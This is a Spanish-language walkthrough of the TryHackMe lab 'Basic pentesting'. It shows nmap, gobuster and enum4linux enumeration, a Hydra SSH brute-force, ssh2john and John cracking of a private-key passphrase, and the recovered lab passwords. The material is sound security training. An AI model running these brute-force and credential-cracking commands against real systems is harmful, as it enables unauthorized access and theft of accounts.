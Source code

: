 ```yaml
---
tags:
  - eJPT
title: Machine Basic pentesting
Category: Try Hack Me
comments: "true"
image: /assets/img/machines/Basicpentesting/Basicpentestingbanner.jpeg
---
```

## Introducción
En esta máquina, realicé un proceso completo de pentesting que incluyó enumeración de puertos, análisis de servicios expuestos, enumeración web y fuerza bruta sobre el servicio SSH. Utilicé herramientas como Nmap, Gobuster y Enum4Linux para descubrir rutas ocultas y usuarios activos. Luego, con técnicas de fuerza bruta y explotación de credenciales, conseguí acceso a dos usuarios diferentes en el sistema. Finalmente, mediante la extracción y cracking de una clave privada SSH, logré escalar privilegios y acceder a información sensible, capturando la flag correspondiente.

## Skills
- Brute forcing
- Hash cracking

## Enumeración
Ejecutamos un escaneo de puertos específicos sobre los puertos 22, 80, 139 y 445. El objetivo era identificar servicios expuestos y obtener información relevante para continuar con la fase de enumeración, detectando servicios como SSH, HTTP y SMB:

```bash
❯ nmap -sCV -p 22,80,139,445 10.10.248.211
Nmap scan report for 10.10.248.211
Host is up (0.24s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:6a:17:ed:4a:7b:81:74:ef:cd:ae:28:d4:b8:05:4d (RSA)
|   256 a5:81:26:1c:44:55:c6:c0:f4:9a:71:e9:24:21:e3:04 (ECDSA)
|_  256 ac:fd:32:0c:a3:db:9f:76:0b:33:a1:b4:21:ae:92:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
| 
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.85 seconds
```
### Enumeración WEB
Accedemos a la interfaz web del servidor a través del puerto 80, en donde se muestra un mensaje simple indicando que el sitio está en mantenimiento:

![1](/assets/img/machines/Basicpentesting/1.jpeg)


```bash
❯ gobuster dir -u http://10.10.248.211 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.248.211
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.248.211/development/]
```

Realicé una enumeración de directorios con el fin de identificar rutas ocultas en la aplicación web. Como resultado, encontré el directorio /development, lo que podría indicar la presencia de archivos de prueba o entornos de desarrollo expuestos.

![2](/assets/img/machines/Basicpentesting/2.jpeg)

Dentro de la ruta /development se encontraron dos archivos: dev.txt y j.txt. Estos archivos contienen una conversación interna del equipo, donde se destaca especialmente el servicio SMB, lo que sugiere que podría ser un punto relevante para la siguiente fase de la enumeración.


Tras identificar la importancia del servicio SMB, se procedió a realizar una enumeración exhaustiva sobre este servicio utilizando la herramienta enum4linux para obtener información detallada de los recursos compartidos, usuarios y posibles vulnerabilidades.

```bash
enum4linux -a 10.10.248.211
```

Mediante la enumeración con enum4linux, se descubrió la existencia de dos usuarios en el sistema: kay y jan, lo que permitió enfocar los siguientes pasos en obtener credenciales o acceder a recursos asociados a estas cuentas.

![3](/assets/img/machines/Basicpentesting/3.jpeg)

## Brute Forcing
Posteriormente, realicé un ataque de fuerza bruta contra el servicio SSH utilizando la herramienta Hydra, enfocándome en el usuario jan y utilizando el popular diccionario rockyou.txt para intentar descubrir la contraseña.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.248.211 ssh
```

Gracias al ataque de fuerza bruta, logré obtener la contraseña armando para el usuario jan.

```plaintext
Password: armando
```

Con la contraseña obtenida, accedí al servicio SSH usando el usuario jan. Una vez dentro, confirmé los privilegios del usuario ejecutando el comando id, el cual mostró que jan tiene un UID y GID propios, perteneciendo al grupo principal de usuario.

```bash
ssh jan@10.10.248.211
jan@ip-10-10-248-211:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)
```

Para continuar con la enumeración local, transferí la herramienta linPEAS desde mi máquina local hacia el directorio /tmp del servidor objetivo utilizando SCP, con el fin de identificar posibles vectores de escalada de privilegios.

```bash
scp linpeas.sh jan@10.10.248.211:/tmp
```

Después de transferir linPEAS, le asigné permisos de ejecución y lo lancé para realizar un escaneo automático en busca de posibles vulnerabilidades y configuraciones erróneas que pudieran permitir la escalada de privilegios.

```bash
jan@ip-10-10-248-211:/tmp$ chmod +x linpeas.sh
jan@ip-10-10-248-211:/tmp$ ./linpeas.sh
```

## Hash Cracking
La ejecución de linPEAS reveló la presencia de una clave privada SSH (id_rsa) perteneciente al usuario kay, lo cual podría facilitar el acceso a dicha cuenta si la clave no estuviera protegida por contraseña.

![4](/assets/img/machines/Basicpentesting/4.jpeg)

Luego de obtener la clave privada id_rsa del usuario kay, procedí a convertirla a un formato compatible con John the Ripper usando la herramienta ssh2john para intentar crackear la contraseña de la clave.

```bash
ssh2john kay_id_rsa > key.txt  
```

Seguidamente, utilicé John con el diccionario rockyou.txt para intentar descifrar la contraseña de la clave privada obtenida.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

Con esta técnica logré obtener la contraseña beeswax para la clave privada del usuario kay.

```bash
Password: beeswax
```

Con la contraseña recuperada, accedí por SSH como el usuario kay. Dentro de su directorio encontré un archivo llamado pass.bak, que contenía una contraseña aparentemente robusta y conforme a políticas de seguridad establecidas.

```bash
ssh -i kay_id_rsa kay@10.10.248.211
kay@ip-10-10-248-211:~$ ls
pass.bak
kay@ip-10-10-248-211:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

